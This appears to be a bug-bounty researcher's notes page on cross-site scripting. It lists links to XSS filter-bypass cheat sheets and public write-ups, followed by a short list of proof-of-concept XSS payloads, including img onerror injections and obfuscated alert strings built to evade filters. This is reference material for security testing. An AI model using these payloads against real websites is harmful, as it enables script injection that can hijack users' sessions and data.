 Notes - 
- https://d3adend.org/xss/ghettoBypass
- https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet



WriteUps
- https://hackerone.com/reports/949382
- XSS + CSRF https://rohit-soni.medium.com/story-behind-sweet-ssrf-40c705f13053
- https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75
- https://hackerone.com/reports/1085914
- https://hackerone.com/reports/1082847
- https://infosecwriteups.com/how-i-made-it-to-google-hof-f1cec85fdb1b

PayLoads
- "><img src=x onerror=alert(document.domain)>
- Comment - <img src="https://intensedebate.com/images/a-addblog.png" onload="alert()">
- inurl - test ‘-Function`self[‘a’\x2b’l’\x2b’e’\x2b’r’\x2b’t’]\x281\x29```-’
- inurl - test ‘-Function`self[‘a’+’l’+’e’+’r’+’t’](1)```-’
- “><img src=x onerror=alert(document.domain)>


